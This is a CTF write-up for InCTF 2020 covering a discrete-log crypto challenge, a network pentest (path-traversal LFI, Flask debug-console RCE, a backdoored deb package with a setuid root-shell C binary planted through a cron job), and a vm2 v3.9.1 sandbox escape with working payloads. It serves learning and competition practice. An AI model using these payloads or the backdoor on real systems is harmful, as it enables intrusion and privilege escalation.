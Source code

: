```yaml
---
title: InCTF 2020 Write Up
date: '2020-08-04 00:00:00'
layout: post
related_technique:
- crypto
- web
categories:
- write-ups
authors:
- oalieno
---
```


## Crypto

### DLPoly

#### tl;dr

discrete logarithm baby step giant step

#### writeups

```python
P.<x> = PolynomialRing(Zmod(p))
Q.<x> = QuotientRing(P, P.ideal(n))
g = x
print(bsgs(g, gX, (0, 2 ^ 56), operation='*'))
```

Use sagemath `bsgs` ( baby step giant step ) to brute force discrete logarithm.
But may run out of memory. I split it into 1024 sections and run each section paralleling using 8 core.
See `a.sh` and `b.sh` and `solve.sage` for details.
And then found that the length of flag is only 13 !??
The description also say something about RSA?
And I found that `n` has many small factor. But I got the flag before I reimplementing pohlig hellman algorithm.

#### flag

`inctf{bingo!}`

## Network Pentest

### Secure Extractor

#### tl;dr

LFI + flask debug mode RCE -> get root privilege through crontab fetch backdoored deb package

#### writeups

First, we need to use OpenVPN to connect to the private network.

http://172.30.0.4:5000, we can upload a zip file to this website and view the unzip files.  
`curl --path-as-is http://172.30.0.4:5000/../app.py` to get the source code.  
The server is written in flask and debug mode is on.  
Follow [Flask debug pin 安全問題](https://www.kingkk.com/2018/08/Flask-debug-pin%E5%AE%89%E5%85%A8%E9%97%AE%E9%A2%98/) to get the debug pin code `262-855-700`.  
Then go to http://172.30.0.4:5000/console execute arbitrary python code.  
Write my ssh key to `.ssh/authorized_keys` and then ssh to the server.  
Found a crontab job fetching http://172.30.0.6/uploads/packages and install packages using dpkg.  
Since no one is using that ip, `ip addr add 172.30.0.6 dev tap0`.  
Then create a backdoored deb package following [create a backdoor deb package](https://blog.csdn.net/nixawk/article/details/38850993).  
The deb packge will install the following binary into `/usr/bin/`.  

```c
#include <stdlib.h>

int main () {
    setuid(0);
    system("/bin/bash");
}
```

Remember to `chmod u+s binary` set the suid bit.  
Then the binary will be installed into the server and we can get the root privilege.  
`cat /root/flag.txt` to get the flag.

## Web

### Landscape

#### tl;dr

escape [vm2](https://www.npmjs.com/package/vm2) v3.9.1.

#### writeups

There is a comment in website says `<!--If u absolutely can't resist hacking then go \-_-/ run ? code . but i doubt if u can find what u r searching for -->`.  
After a few guess, `http://34.73.121.250/run?code=throw 1+1` we found that we can run node js code.  
`http://34.73.121.250/run?code=throw Object.keys(this.process.env)` viewing the envrionment and see that we are stuck in [vm2](https://www.npmjs.com/package/vm2) v3.9.1.  
Browsing the [CHANGELOG.md](https://github.com/patriksimek/vm2/blob/master/CHANGELOG.md) and found `[fix] Fixed breakouts in NodeVM (XmiliaH)`.  
https://github.com/patriksimek/vm2/issues/276 this is the 1day exploit payload.  
`http://34.73.121.250/run?code=(function() { throw setTimeout(()=>{}).ref().constructor.constructor('return process')().mainModule.require('fs').readdirSync('/home/s3cr3t/landscape/'); })()` Browse the directory.  
`http://34.73.121.250/run?code=(function() { throw setTimeout(()=>{}).ref().constructor.constructor('return process')().mainModule.require('fs').readFileSync('/home/s3cr3t/landscape/flag.txt'); })()` Get the flag.  

#### flag

`inctf{Pretty_Good,_that_u_reached_till_here8}`
